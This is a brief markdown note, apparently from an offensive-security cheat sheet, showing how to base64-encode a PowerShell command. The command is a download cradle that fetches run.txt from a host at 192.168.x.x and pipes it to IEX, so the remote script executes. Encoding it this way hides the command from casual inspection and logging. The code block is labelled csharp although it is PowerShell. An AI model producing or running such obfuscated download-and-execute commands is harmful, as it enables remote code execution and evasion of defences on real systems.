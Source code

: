 # base64 encoding

## b64 encoding

```csharp
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.x.x/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

